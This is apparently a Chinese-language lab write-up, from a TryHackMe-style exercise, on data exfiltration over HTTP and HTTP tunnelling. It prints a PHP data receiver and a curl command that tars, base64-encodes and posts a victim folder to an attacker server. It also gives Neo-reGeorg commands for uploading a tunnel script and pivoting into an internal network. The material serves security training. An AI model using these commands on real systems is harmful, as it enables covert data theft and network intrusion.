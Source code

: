 ## HTTP / HTTPS

**作为此技术的要求，攻击者需要控制已安装并启用了服务器端编程语言的 Web 服务器。**

**通过 HTTP 协议的渗透数据是最佳选择之一，因为它很难检测。很难区分合法和恶意的HTTP流量。**

我们将在数据泄露中使用 POST HTTP 方法，原因是使用 GET 请求，所有参数都注册到日志文件中。使用 POST 请求时，它不会。以下是 POST 方法的一些优点：

- 从不缓存 POST 请求
- POST 请求不会保留在浏览器历史记录中
- 无法为 POST 请求添加书签
- POST 请求对数据长度没有限制

### 数据外泄

要通过 HTTP 协议泄露数据，我们可以应用以下步骤：

1) 攻击者使用数据处理程序设置 Web 服务器。在我们的例子中，它将 web.thm.com 和联系人.php页面作为数据处理程序。
2) C2 代理或攻击者发送数据。在我们的例子中，我们将使用 curl 命令发送数据。
3) 网络服务器接收数据并存储它。在我们的例子中，联系人.php接收 POST 请求并将其存储到 /tmp 中。
4) 攻击者登录到网络服务器以获取接收数据的副本。

```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

```bash
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

### HTTP 隧道

![在这里插入图片描述](https://img-blog.csdnimg.cn/8d99d92698184193a73a54cd2cc9a3fa.png)

我们将使用[Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)工具来建立一个通信通道来访问内部网络设备。

```bash
# 生成加密客户端
$ python3 neoreg.py generate -k thm
```

将适合的客户端文件上传到web服务器目录下，确保该文件能够执行

连接到客户端文件，建立隧道:

```bash
python3 neoreg.py -k thm -u http://10.10.109.43/uploader/files/tunnel.php
```

```bash
curl --socks5 127.0.0.1:1080 app.thm.com
```
